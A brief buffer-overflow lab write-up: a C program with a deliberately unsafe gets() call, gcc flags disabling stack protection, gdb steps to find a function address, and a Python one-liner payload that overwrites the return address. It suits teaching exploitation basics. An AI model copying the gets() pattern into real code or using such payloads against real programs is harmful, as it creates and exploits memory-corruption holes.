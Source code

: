 ## Bof 1
Source Code:
```
#include<stdio.h>

void secretFunc()
{
    printf("Congratulation!\n:");
}
int vuln(){
    char array[200];
    printf("Enter text:");
    gets(array);
    return 0;
}
int main(int argc, char*argv[]){
    if (argv[1]==0){
        printf("Missing arguments\n");
    }
    vuln();
    return 0;
}
```
Complie by gcc:
`gcc -g bof1.c -o bof1.out -fno-stack-protector -mpreferred-stack-boundary=2 `
![complie bof1](./imgs/bof1_1.png)
Use gdb-peda to find `secretFunct` address:
`gdb bof1.out -q`
`disas secretFunc`
![disas secretFunct](./imgs/bof1_2.png)
then quit gdb-peda by `q`

Run the program: get `200 bytes + 4 bytes + 'reverse of secretFunc address'` to character array `buffer`
`echo $(python -c "print('a'*204 + '\x08\x04\x84\x6b')"
) | ./bof1.out`
![run program](./imgs/bof1_3.png) 
